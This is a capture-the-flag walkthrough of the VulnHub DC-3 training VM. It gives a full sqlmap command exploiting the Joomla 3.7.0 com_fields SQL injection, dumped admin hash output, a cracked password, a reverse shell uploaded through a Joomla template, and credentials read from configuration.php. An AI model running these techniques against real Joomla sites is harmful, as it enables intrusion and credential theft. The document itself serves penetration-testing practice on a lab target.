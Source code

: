# DC-3

---

## **Description ⤵️**

>
💡 [DC-3](https://vulnhub.com/entry/dc-32,312/) is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

**TECHNICAL INFORMATION**

DC-3 is a VirtualBox VM built on Ubuntu 32 bit, so there should be no issues running it on most PCs.

Please note: There was an issue reported with DC-3 not working with VMware Workstation. To get around that, I recommend using VirtualBox, however, I have created a separate DC-3 VMware edition for those who can only use VMware.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**IMPORTANT**

While there should be no problems using this VM, by downloading it, you accept full responsibility for any unintentional damage that this VM may cause.

In saying that, there shouldn't be any problems, but I feel the need to throw this out there just in case.

**CONTACT**

I'm also very interested in hearing how people go about solving these challenges, so if you're up for writing a walkthrough, please do so and send me a link, or alternatively, follow me on Twitter, and DM me (you can unfollow after you've DM'd me if you'd prefer).

I can be contacted via Twitter - @DCAU7

This works better with VirtualBox rather than VMware ## Changelog v3.2 - 2020-04-25 v3.0 - 2019-03-26

{: .prompt-info }

Let’s find the IP Address first >>

![157-1.png](/Vulnhub-Files/img/DC-3/157-1.png)

```bash
IP →  10.0.2.8
```

## Port Scan Results ➡️

![157-2.png](/Vulnhub-Files/img/DC-3/157-2.png)

```bash
OPEN PORTS >
80   HTTP
```

---

## Web Enumeration ⤵️

![157-3.png](/Vulnhub-Files/img/DC-3/157-3.png)

I found one exploit on exploitdb site for joomla 3.7.0 →

```bash
commands →
sqlmap -u "http://10.0.2.8/**index**.php?**option**=com_fields&**view**=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --dump -p list[fullordering]
```

![157-4.png](/Vulnhub-Files/img/DC-3/157-4.png)

```bash
[02:45:21] [INFO] fetching entries for table '#__users' in database 'joomladb'
[02:45:21] [INFO] retrieved: 'freddy@norealaddress.net'
[02:45:21] [INFO] retrieved: '629'
[02:45:21] [INFO] retrieved: 'admin'
[02:45:21] [INFO] retrieved: '{"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""}'
[02:45:21] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
[02:45:21] [INFO] retrieved: 'admin'

Database: joomladb
```

so with the help of john the ripper I got the password →

![157-5.png](/Vulnhub-Files/img/DC-3/157-5.png)

```bash
admin : snoopy
```

![157-6.png](/Vulnhub-Files/img/DC-3/157-6.png)

so I got In →

Lets upload the reverse shell code now →

![157-7.png](/Vulnhub-Files/img/DC-3/157-7.png)

After this set the reverse shell at port 4444 and then click on **`Template Preview`** →

![157-8.png](/Vulnhub-Files/img/DC-3/157-8.png)

Now lets see What I have with this shell →

`configuration.php` →

![157-9.png](/Vulnhub-Files/img/DC-3/157-9.png)

```bash
secret : 7M6S1HqGMvt1JYkY
user : root
password : squires
```

![157-10.png](/Vulnhub-Files/img/DC-3/157-10.png)

![157-11.png](/Vulnhub-Files/img/DC-3/157-11.png)

it worked →

![157-12.png](/Vulnhub-Files/img/DC-3/157-12.png)

![157-13.png](/Vulnhub-Files/img/DC-3/157-13.png)

![157-14.png](/Vulnhub-Files/img/DC-3/157-14.png)

---